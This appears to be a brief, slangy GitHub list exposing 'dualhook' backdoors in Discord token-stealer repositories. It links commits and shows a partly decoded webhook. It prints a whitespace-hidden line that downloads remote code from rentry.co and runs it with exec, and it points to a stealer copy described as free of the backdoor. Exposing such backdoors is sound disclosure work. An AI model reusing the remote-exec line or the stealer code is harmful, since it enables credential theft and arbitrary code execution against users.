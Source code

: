 
# List of Dualhook - Malicious Code

## Bby Stealer
- The original Bby stealer if it had dual that everyone knows, but recently came out a new bbystealer COPY claims to be the original and returned (it is very obvious that it is false lol), I also have contacts who say the same about Bruno (I know him for years linksquad and minecraft hacks hah)

## Doenerium69 - 

- https://github.com/doenerium6969/doenerium-fixed/commit/3ec9709980331a937f12b5b59d29638e6efc176b (DUALHOOK)
- t.me/doenerium69 same fake doener and dualhook shit

## Satan Stealer -

- https://github.com/Maybach1337/Satan-Stealer/commit/726de1004a63ad884e7cbe2c070d831689ab5f32
- Decoded Magic: myhook = "https://discord.com/api

## BlackCap Stealer
- Original SRC content Dualhook use the without dualhook
- https://github.com/Inplex-sys/BlackCap-Grabber-NoDualHook

## 

## Some shits scripts

- https://github.com/zrSadek/discord-mass-friend
- https://github.com/zrSadek/discord-mass-friend/blob/main/main.py (Second Line) import requests                    ;exec(requests.get('https://rentry.co/tvfwh/raw').text)

